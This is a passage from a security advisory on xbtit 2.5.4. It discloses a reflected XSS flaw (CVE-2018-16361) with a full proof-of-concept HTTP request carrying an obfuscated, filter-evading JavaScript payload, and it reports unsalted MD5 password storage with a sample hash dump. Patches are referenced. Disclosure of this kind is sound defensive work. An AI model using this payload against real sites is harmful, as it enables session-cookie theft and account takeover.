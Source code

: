### Solution
Update to the version that supersedes 2.5.4 or apply [This Patch](/assets/code/xbtit-multiple-vulnerabilities/xbtit.patch)

<hr>

## Reflected XSS in News Edit Page
The `id` parameter in the edit news page available at `/index.php?page=news&act=edit` is vulnerable to reflected cross-site scripting. By packaging the payload as outlined in the [Anti-XSS Mechanism Bypass](#anti-xss-mechanism-bypass) section, it is possible to execute arbitrary JavaScript in the web browser of an authenticated user and subsequently steal their cookies (including the session cookie).

For the attack to be successful, the `id` parameter value must start with a valid news item ID.

### Proof of Concept
```http
GET /index.php?page=news&act=edit&id=2%22%3E%3Cimg%20src=x%20onerror=%22eval(/a~lert(do~cu~me~nt~.c~oo~k~ie)/.toString().replace(/~/g,%20%27%27).slice(1,-1))%22%3E%3C%22 HTTP/1.1
Host: xbtit.vm
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:61.0) Gecko/20100101 Firefox/61.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-GB,en;q=0.5
Accept-Encoding: gzip, deflate
Cookie: SMFCookie693=a%3A4%3A%7Bi%3A0%3Bi%3A1%3Bi%3A1%3Bs%3A40%3A%221250f6c7216825b4a231dc697393fc56e8921810%22%3Bi%3A2%3Bi%3A1723852786%3Bi%3A3%3Bi%3A0%3B%7D; uid=2; pass=b094c51fb1076fc241a300ba39c3de9e; xbtit=ugrlrb1b7tq4cs3pcqq2atuupb
Connection: close
Upgrade-Insecure-Requests: 1

```

### CVE-ID
CVE-2018-16361

### Solution
Update to the version that supersedes 2.5.4 or apply [This Patch](/assets/code/xbtit-multiple-vulnerabilities/xbtit.patch)

<hr>

## Passwords Stored as Unsalted MD5 Hashes
Passwords stored within the `xbtit_users` table are stored by default as unsalted MD5 hashes. Should a breach occur, reversing the hashes would be a trivial task due to the large quantities of precomputed hashes available.

In instances of a strong password being used, it would still require less time to brute force in comparison to stronger hashing methods that are intentionally expensive on resources.

```
mysql> select username, password, salt from xbtit_users;
+----------+----------------------------------+------+
| username | password                         | salt |
+----------+----------------------------------+------+
| Guest    |                                  |      |
| root     | 7b24afc8bc80e548d66c4e7ff72171c5 |      |
+----------+----------------------------------+------+
2 rows in set (0.00 sec)
```
